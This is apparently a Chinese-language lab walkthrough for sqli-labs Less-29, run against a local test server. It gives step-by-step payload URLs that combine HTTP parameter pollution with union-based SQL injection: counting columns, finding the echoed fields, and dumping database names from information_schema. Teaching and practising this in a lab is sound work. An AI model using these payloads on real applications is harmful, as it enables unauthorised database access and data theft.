

# Less-29
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://127.0.0.1:8080/sqli_/Less-29/index.jsp?id=1&id=3‘  order by 3--+ 说明数据有3列，而且第一个id值无法注入
2. http://127.0.0.1:8080/sqli_/Less-29/index.jsp?id=1&id=113‘  union select 1,2, 3  --+ 已经知道数据回显的位置
3. http://127.0.0.1:8080/sqli_/Less-29/index.jsp?id=1&id=113‘  union select 1,2, group_concat(schema_name) from    information_schema.schemata --+  此时我们已经取出数据库的名字。
4. 接下来就是常规的操作，和less1基本一致